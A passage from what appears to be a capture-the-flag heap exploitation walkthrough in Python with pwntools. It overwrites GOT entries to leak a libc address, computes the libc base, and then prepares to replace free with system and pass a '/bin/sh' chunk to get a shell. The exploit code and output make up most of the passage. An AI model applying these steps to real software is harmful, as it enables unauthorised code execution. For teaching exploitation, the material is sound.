 ```python
# now we write strlen@GOT to the chunklist
edit(3, p64(elf.got['strlen']))
edit(0, p64(elf.plt['puts']))

# now when we edit() we read chunk contents
# but strlen@got holds a PLT address, so let's change the GOT entry for the leak
edit(3, p64(elf.got['free']))
```

Now we just attempt to edit Chunk 0. Because it would print the libc address as soon as we enter the index, we'll have to do this part manually or the `p.sendlineafter()` lines would skip over the leak.

```python
p.sendline('2')
p.sendlineafter('Index: ', '0')

print(p.clean())
```

The response we get is

```
b'@u\xdb%\xc0\x7f\nData: '
```

So it worked! Let's just parse the response and print out the leak.

```python
free_leak = u64(p.recv(6) + b'\x00\x00')
log.success('Free Leak: ' + hex(free_leak))
libc.address = free_leak - libc.symbols['free']
log.success('Libc base: ' + hex(libc.address))

p.recvuntil('Data: ')                       # just receive the rest
```

```
[+] Free Leak: 0x7f2211927540
[+] Libc base: 0x7f22118a3000
```

Perfect.

### Getting a Shell

This is quite simple - change a GOT entry such as `free` and replace it with `system`. Then, if the chunk contains `/bin/sh`, it'll get passed to the function as a parameter.

You may notice the 2nd and 3rd chunks have been untouched so far, so we could easily place the `/bin/sh` in one of those right at the beginning for use now.

```python
# right at the beginning
alloc()
alloc(data='/bin/sh\x00')
alloc()
alloc(data='A' * 0x98)
alloc()
```
